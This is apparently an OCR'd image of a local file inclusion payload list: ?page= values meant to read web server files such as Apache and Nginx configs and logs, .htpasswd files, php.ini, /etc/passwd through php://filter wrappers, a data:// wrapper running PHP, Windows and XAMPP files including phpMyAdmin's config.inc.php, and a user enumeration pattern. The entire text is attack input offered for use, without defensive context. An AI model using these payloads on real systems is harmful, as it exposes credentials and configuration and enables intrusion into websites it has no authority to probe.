 ```js
?page=/var/www/wordpress/index.php

# Apache
?page=/etc/apache2/sites-enabled/000-default.conf
?page=/etc/apache2/sites-enabled/domain.conf
?page=/etc/apache2/sites-enabled/example.com.conf
?page=/etc/apache2/sites-enabled/sub.example.com.conf
?page=/etc/apache2/sites-enabled/sub.conf
?page=/etc/apache2/sites-available/domain.conf
?page=/etc/apache2/sites-available/example.com.conf
?page=/etc/apache2/sites-available/sub.example.com.conf
?page=/etc/apache2/sites-available/sub.conf
?page=/etc/apache2/.htpasswd
?page=/var/log/apache/access.log
?page=/var/log/apache/error.log
?page=/var/log/apache2/access.log
?page=/var/log/apache2/error.log

# Nginx
?page=/var/log/nginx/access.log
?page=/var/log/nginx/error.log
?page=/etc/nginx/nginx.conf
?page=/etc/nginx/conf.d/.htpasswd
?page=/etc/nginx/sites-available/example.com.conf
?page=/etc/nginx/sites-enabled/example.com.conf
?page=/usr/local/nginx/conf/nginx.conf
?page=/usr/local/etc/nginx/nginx.conf

# PHP web conf
?page=/etc/php/x.x/apache2/php.ini
?page=/etc/php/x.x/cli/php.ini
?page=/etc/php/x.x/fpm/php.ini

# PHP Filter
?page=php://filter/resource=/etc/passwd
?page=php://filter/read=string.rot13/resource=index.php
?page=php://filter/convert.base64-encode/resource=index.php
?page=pHp://filter/convert.base64-encode/resource=index.php
?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# Windows
?page=../../../../../../../../windows/system32/drivers/etc/hosts
?page=C:/Windows/System32/drivers/etc/hosts
?page=C:/Users/Public/Desktop/desktop.ini
?page=C:/Users/FUZZ/Desktop/desktop.ini # user enumeration
?page=C:/inetpub/wwwroot/
?page=C:/xampp/apache/conf/httpd.conf
?page=C:/xampp/apache/conf/extra/httpd-userdir.conf
?page=C:/xampp/apache/conf/extra/httpd-vhosts.conf
?page=C:/xampp/apache/conf/extra/httpd-xampp.conf
?page=C:/xampp/apache/conf/extra/httpd-ajp.conf
?page=C:/xampp/apache/logs/access.log
?page=C:/xampp/apache/logs/error.log
?page=C:/xampp/cgi-bin/example.cgi
?page=C:/xampp/htdocs/example.com/index.php
?page=C:/xampp/htdocs/sub.example.com/index.php
?page=C:/xampp/phpMyAdmin/index.php
?page=C:/xampp/phpMyAdmin/config.inc.php
```
